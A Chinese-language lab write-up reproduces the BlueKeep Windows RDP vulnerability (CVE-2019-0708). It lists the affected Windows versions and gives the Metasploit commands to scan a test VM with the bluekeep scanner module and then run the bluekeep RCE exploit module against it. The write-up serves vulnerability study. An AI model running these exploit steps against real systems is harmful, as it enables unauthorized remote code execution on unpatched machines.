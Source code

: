 （CVE-2019-0708） Windows 远程溢出漏洞
======================================

一、漏洞简介
------------

Windows再次被曝出一个破坏力巨大的高危远程漏洞CVE-2019-0708。攻击者一旦成功利用该漏洞，便可以在目标系统上执行任意代码，包括获取敏感信息、执行远程代码、发起拒绝服务攻击等等攻击行为。而更加严重的是，这个漏洞的触发无需用户交互，攻击者可以用该漏洞制作堪比2017年席卷全球的WannaCry类蠕虫病毒，从而进行大规模传播和破坏。

二、漏洞影响
------------

Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP

三、复现过程
------------

进入msf、搜索0708

**msfconsole**
**search 0708**

使用扫描模块（scanner）

![20191003195616647.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId24.png)

**use auxiliary/scanner/rdp/cve\_2019\_0708\_bluekeep**
**show options**
**set rhost 192.168.237.131 //这里的ip填写自己win7主机的ip**
**run**

![1590935936179.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId25.png)

![1590935980644.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId26.png)

使用利用模块（exploit）

**use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce**
**show targets //选择目标主机类型 这里我选择了7601 -vmware 15**
**set target 4**
**set rhost 192.168.237.131**
**run**

![1590936148050.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId27.png)

![1590936192070.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId28.png)

![1590936228779.png](./resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId29.png)

复现成功。

